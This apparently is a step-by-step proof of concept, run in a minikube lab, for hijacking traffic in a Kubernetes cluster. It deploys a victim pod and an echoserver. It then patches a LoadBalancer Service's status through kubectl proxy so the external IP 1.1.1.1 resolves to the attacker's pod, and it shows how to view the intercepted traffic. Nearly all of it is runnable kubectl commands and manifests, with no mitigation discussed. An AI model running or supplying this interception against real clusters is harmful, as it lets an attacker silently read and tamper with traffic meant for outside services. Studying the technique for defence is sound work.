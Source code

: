 Create namespace app
```
kubectl create ns app
```
Deploy "victim-client" pod to simulate an in-cluster HTTP client with curl

```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Pod
metadata:
  name: victim-client
  namespace: app
spec:
  containers:
    - name: curl
      image: curlimages/curl:7.67.0
      command: [ "/bin/sleep", "3600" ]
EOF
```

Check that we have access to our external victim (here 1.1.1.1)

```
# from a node
minikube ssh
curl -sv http://1.1.1.1
curl -sv https://1.1.1.1 -k
# from the pod
kubectl exec -n app victim-client -- curl -sv http://1.1.1.1
kubectl exec -n app victim-client -- curl -sv https://1.1.1.1 -k

```

Deploy "mitm pod"

```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Namespace
metadata:
  name: tcc
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: echoserver
  namespace: tcc
spec:
  replicas: 1
  selector:
    matchLabels:
      app: echoserver
  template:
    metadata:
      labels:
        app: echoserver
    spec:
      containers:
      - image: gcr.io/google_containers/echoserver:1.10
        name: echoserver
        ports:
        - name: http
          containerPort: 8080
        - name: https
          containerPort: 8443
EOF
```

external traffic interception using service type LoadBalancer

```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Service
metadata:
  name: mitm-external-lb
  namespace: tcc
spec:
  ports:
  - name: http
    port: 80
    targetPort: 8080
  - name: https
    port: 443
    targetPort: 8443
  selector:
    app: echoserver
  type: LoadBalancer
EOF
kubectl proxy --port=8080 &
sleep 3
curl -k -v -XPATCH  -H "Accept: application/json" -H "Content-Type: application/merge-patch+json" 'http://127.0.0.1:8080/api/v1/namespaces/tcc/services/mitm-external-lb/status' -d '{"status":{"loadBalancer":{"ingress":[{"ip":"1.1.1.1"}]}}}'
pkill kubectl
```

After the patch call, LoadBalancer IP is properly configured (ie not pending)

```
kubectl get -n tcc svc/mitm-external-lb
```

Test if the MITM works
```
# node -> ip
minikube ssh
curl -sv http://1.1.1.1
curl -sv https://1.1.1.1 -k
# pod -> ip
kubectl exec -n app victim-client -- curl -sv http://1.1.1.1
kubectl exec -n app victim-client -- curl -sv https://1.1.1.1 -k
```

view traffic 

```
stern echoserver
```